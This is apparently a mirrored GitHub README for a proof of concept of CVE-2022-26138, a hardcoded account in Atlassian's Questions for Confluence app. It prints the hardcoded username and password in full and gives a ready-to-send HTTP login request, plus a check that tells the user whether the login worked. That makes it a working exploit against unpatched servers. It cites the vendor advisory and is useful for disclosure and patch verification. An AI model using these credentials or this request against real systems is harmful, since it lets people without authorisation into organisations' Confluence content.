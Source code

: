 # CVE-2022-26138

Atlassian Questions Hardcoded Password (CVE-2022-26138)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/alcaparra](https://github.com/alcaparra) |
| Url      | [https://github.com/alcaparra/CVE-2022-26138](https://github.com/alcaparra/CVE-2022-26138)                                               |
| Stars    | 33                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* atlassian* confluence* cve* cve-2022-26138* poc

</details>

## Readme

# CVE-2022-26138 POC
![questions_cve](https://user-images.githubusercontent.com/105424007/180184601-06a62fae-a5ba-412f-9304-d9c3abb0c400.png)

## Description
```
The Atlassian Questions For Confluence app for Confluence Server and Data Center 
creates a Confluence user account in the confluence-users group with 
the username disabledsystemuser and a hardcoded password. A remote, 
unauthenticated attacker with knowledge of the hardcoded password could
exploit this to log into Confluence and access all content accessible 
to users in the confluence-users group. 
This user account is created when installing versions 2.7.34, 2.7.35, and 3.0.2 of the app.
```

## POC
Hardcoded Credentials: 
 - User: `disabledsystemuser`
 - Password: `disabled1system1user6708`

## Exploitation
```
POST /dologin.action HTTP/1.1
Host: victim.local
Content-Type: application/x-www-form-urlencoded

os_username=disabledsystemuser&os_password=disabled1system1user6708&login=Log+in&os_destination=%2Fvulnerable.action
```
If the server redirects to `/vulnerable.action`, credentials are valid.

## Were did you get the creds from?

The hardcoded credential were plainly laying inside the jar files of the affected plugin

`https://packages.atlassian.com/maven-atlassian-external/com/atlassian/confluence/plugins/confluence-questions/3.0.2/confluence-questions-3.0.2.jar`

## References
* https://www.cvedetails.com/cve/CVE-2022-26138/
* https://confluence.atlassian.com/doc/confluence-security-advisory-2022-07-20-1142446709.html
* https://jira.atlassian.com/browse/CONFSERVER-79483



## Get the content

```
git clone https://github.com/alcaparra/CVE-2022-26138
cd CVE-2022-26138
```

{% embed url="https://github.com/alcaparra/CVE-2022-26138" %}

<figure><img src="https://avatars.githubusercontent.com/u/105424007?v=4" alt=""><figcaption><p>alcaparra</p></figcaption></figure>
